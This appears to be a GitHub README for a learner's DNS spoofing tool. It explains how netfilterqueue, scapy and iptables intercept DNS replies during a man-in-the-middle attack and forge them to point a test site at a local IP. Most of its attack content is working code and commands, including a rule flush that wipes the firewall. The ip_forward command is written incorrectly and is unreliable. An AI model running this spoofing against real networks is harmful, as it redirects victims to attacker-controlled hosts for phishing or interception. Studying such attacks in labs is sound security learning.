 # DNS_spoof

## Used Modules

### +netfilterqueue

This modules is used to redirect the flow of packets, the funtions process_packet will receive the packet and turn it into a scapy packet that i can edit(if you wanna know more about the module scapy go to another of my repositories like ARP_spoof).
When i verify that i have some request from my target(i can know if i have one request because i became the MITM, go to my repository ARP_spoof) if that's true i'm gonna take the value of the url and see if is the same web-site that i wanna spoof, and if it is i can send the DNS response with my ip destination, but with the same url name. And i can change the field "an" that contain the real answer to my costumized response and change the field "ancount" for just one response. Finally i'm gonna turn the scapy packet to a real packet.

```python
def process_packet(packet):
    scapy_packet = scapy.IP(packet.get_payload())
    if scapy_packet.haslayer(scapy.DNSRR):
         qname = scapy_packet[scapy.DNSQR].qname
         if "testephp.vulnweb.com" in qname:
             print("[+] Spoofing target" + str(qname))
             answer = scapy.DNSRR(rrname=qname, rdata="192.168.1.8")
             scapy_packet[scapy.DNS].an = answer
             scapy_packet[scapy.DNS].ancount = 1
          
             del scapy_packet[scapy.IP].len
             del scapy_packet[scapy.IP].chksum
             del scapy_packet[scapy.UDP].chksum
             del scapy_packet[scapy.UDP].len
            

             packet.set_payload(str(scapy_packet))
```


## Used Commands

these commands clean the Iptables, and redirect the packets entering and leaving my pc for a queue 0 that i'm creating, this way all the packets that came through my computer instead of just pass (because of my arp_spoof when i became the Man-in-the-Midle) i'm gonna store all the packets in a queue.  

iptables --flush<br>
iptables -I INPUT -j NFQUEUE --queue-num  0<br>
iptables -I OUTPUT -j NFQUEUE --queue-num  0<br>

Internet sharing on Linux is done through Netfilter / Iptables, which is the native firewall for distributions starting with the 2.4 kernel. So is necessary to use this command, this command writes the number 1 into the ip_forward file, enabling packet routing. The default is 0. With this, Linux starts to route packages from one interface to the other and vice versa(My target and my host).

echo > 1 /proc/sys/ipv4/ip_forward


